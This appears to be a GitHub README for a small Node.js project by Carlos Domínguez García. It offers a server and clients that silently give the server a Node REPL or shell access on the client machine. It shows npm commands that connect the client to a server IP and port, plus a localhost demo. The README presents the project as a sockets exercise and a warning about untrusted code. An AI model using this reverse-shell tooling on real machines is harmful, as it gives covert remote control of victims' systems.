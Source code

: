 # Simple Reverse Node REPL and Reverse Shell

## Author
- Carlos Domínguez García

## Questions and Answers
- Why did you did this?

    I wanted to do something with sockets in node. Also this shows how easy is for an attacker to do something dangerous. Anyone can do it, we have to be very careful with untrusted code

- Why specify the host and port as environment variables instead of as program arguments?

    Just because I think the code is cleaner this way, I didn't want unnecessary complexity

## Usage
- **Server**: run an interactively server, it waits for a connection and then allows the user to send commands to the client

    ```bash
        PORT='<Port where the server will listen to connections>' npm run server
    ```

- **Node REPL client**: connects to the server and silently provides the server access to a Node REPL in the client machine
    
    ```bash
        # In the machine with the role of the client
        HOST='<Server IP>' PORT='<Server port>' npm run client:node
    ```

- **_Shell_ client**: connects to the server and silently provides the server execution of shell commands in the client machine

    ```bash
        # In the machine with the role of the client
        HOST='<Server IP>' PORT='<Server port>' npm run client:shell
    ```

## Example (using the local machine as client and server)
- First run the server with 

    ```bash
        PORT='8080' npm run server
    ```

- Then run the client on another terminal tab with 
    
    ```bash
        HOST='localhost' PORT='8080' npm run client:node
    ```

- Now go back to the terminal with the server process and you can interact with the client Node REPL.

    ```node
        > process.arch
        'x64'
        > 2 + 3
        5
        > process.stdout.write('Hello') // Outputs "Hello" in the client process
        true
    ```

- To stop the server you can send a kill signal with `Ctrl+C`